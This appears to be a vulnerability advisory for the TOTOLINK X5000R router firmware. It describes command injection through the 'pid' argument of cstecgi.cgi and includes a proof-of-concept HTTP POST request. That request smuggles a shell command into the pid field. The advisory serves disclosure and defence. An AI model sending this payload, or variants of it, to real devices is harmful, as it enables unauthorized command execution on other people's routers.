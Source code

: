### Overview

- Vendor : TOTOLINK
- Product : X5000R
- Version : CS_C8344R_X5000R_IP04433_MT7621MT7915_SPI_16M256M_V9.1.0cu.2415_B20250515_ALL.web
- Firmware download address : https://www.totolink.net/data/upload/20250515/9ef4ceaaae8d9c1ac3e26e15af8d97b0.web

### Vulnerability details

A vulnerability was determined in TOTOLINK X5000R V9.1.0cu.2415_B20250515. This impacts the function sub_410C34 of the file cstecgi.cgi. This manipulation of the argument pid causes command injection. The attack is possible to be carried out remotely. The exploit has been publicly disclosed and may be utilized.

![1756299093815](image/sub_410C34/1756299093815.png)


![1756300071389](image/sub_410C34/1756300071389.png)

### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 97
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.2
Referer: http://192.168.0.2/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"pid":";echo `ps`>1111","topicurl":"disconnectVPN","token":"0583d4dd5c1le5ce78b46b32c49ld783"}
```

![1756368613695](image/sub_410C34/1756368613695.png)